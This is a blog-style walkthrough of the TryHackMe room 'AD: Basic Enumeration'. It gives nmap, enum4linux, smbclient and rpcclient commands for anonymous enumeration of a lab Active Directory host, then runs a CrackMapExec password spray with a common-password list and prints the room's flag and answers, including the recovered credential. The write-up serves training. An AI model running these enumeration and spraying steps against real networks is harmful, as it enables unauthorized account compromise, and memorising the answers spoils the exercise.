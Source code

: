 ```yaml
---
title: "AD: Basic Enumeration"
date: 2025-07-28
categories: [TryHackMe]
tags: [info, vm,  active directory, nmap]
excerpt: "AD: Basic Enumeration TryHackMe"
---
```


## Introduction

This post provides a comprehensive walkthrough of the TryHackMe room "AD: Basic Enumeration," which introduces fundamental concepts of Microsoft's Active Directory service. This room covers essential enumeration techniques used in penetration testing and red team exercises to gather information about Active Directory environments.


## Task 2: Mapping out the network

What is the domain name of our target?

To identify the domain name, I use Nmap to perform service version detection and OS fingerprinting:
```bash 
sudo nmap -sV -O 10.211.11.10
```
{: file="Nmap command for domain discovery"}

This command reveals service banners and operating system information, which includes the domain name in the output.
> **Answer:** `tryhackme.loc`


What version of Windows Server is running on the DC?
The same Nmap scan provides operating system detection results, showing the specific Windows Server version running on the domain controller.
> **Answer:** `Windows Server 2019 Datacenter`


## Task 3: Network Enumeration With SMB

What is the flag hidden in one of the shares?

The target VM allows anonymous, unauthenticated enumeration, enabling me to gather significant information about the environment. I'll use enum4linux to enumerate SMB shares and other domain information.

First, I enumerate all available SMB (Server Message Block) shares and domain information:

```bash 
enum4linux 10.211.11.10
```
{: file="enum4linux command for comprehensive SMB enumeration"}

This command reveals several accessible shares. Let me examine each one:

```bash 
smbclient \\\\10.211.11.10\\SharedFiles -N
```
{: file="Connecting to SharedFiles share anonymously"}
This share contains a text file with a USB-related story but no flag.

Trying the UserBackups:
```bash 
smbclient \\\\10.211.11.10\\UserBackups -N
```
{: file="Connecting to UserBackups share anonymously"} 

Using the `ls` command within the SMB session reveals a `flag.txt` file. I download and read this file to get my answer:
> **Answer:** `THM{88_SMB_88}`


## Task 4: Managing Users in AD

What group is the user rduke part of?

To find detailed user information, I save the enum4linux output to a file for easier analysis:
```bash 
enum4linux 10.211.11.10 > DomainEnum.txt  
```
{: file="Saving enumeration results for analysis"}

Examining the output file reveals user group memberships, showing me that rduke belongs to:
> **Answer:** `Domain Users`


What is this user’s full name?

The same enumeration output provides full name information for domain users:
> **Answer:** `Raoul Duke`

Which username is associated with RID 1634?

RID (Relative Identifier) 1634 converts to 0x662 in hexadecimal. Searching through the enumeration results for this RID reveals:
> **Answer:** `katie.thomas`



## Task 5: Password Spraying

What is the minimum password length?

The enum4linux output includes domain password policy information, which I can see specifies:
> **Answer:** `7` <br>

What is the locked account duration?

The domain password policy also includes account lockout duration settings:
> **Answer:** `2 minutes` <br>

Perform password spraying using CrackMapExec. What valid credentials did you find? (format: username:password)

First, I need to enumerate domain users using rpcclient: 
```bash 
rpcclient -U "" 10.211.11.10 -N
```
{: file="Connecting to RPC endpoint anonymously"}

Once I connect successfully, I enumerate users with: `enumdomusers`.

Next, I create a password list based on common corporate password patterns:
```bash 
Password!
Password1
Password1!
P@ssword
Pa55word1
``` 
{: file="Common password list (PasswordsToTry.txt)"}

I save the enumerated usernames to a file (TryHackMeUsers.txt) and perform password spraying using CrackMapExec:
```bash 
crackmapexec smb 10.211.11.10 -u TryHackMeUsers.txt -p PasswordsToTry.txt --continue-on-success
```
{: file="Password spraying attack using CrackMapExec"}

The `--continue-on-success` flag ensures the tool continues testing even after finding valid credentials, allowing me to discover multiple compromised accounts.


The attack reveals valid credentials:

And found `tryhackme.loc\rduke:Password1!`


## Task 6: Conclusion

This room demonstrates the importance of proper Active Directory security configuration. 
My **key takeaways** include:

- Anonymous enumeration can reveal extensive information about AD environments.
- Weak password policies make password spraying attacks highly effective.
- Default configurations often allow unauthorized information gathering.
- SMB shares with anonymous access can expose sensitive data.

Understanding these enumeration techniques has been crucial for my learning in both offensive security and understanding how to defend Active Directory environments.
> **Answer:** `No answer needed`


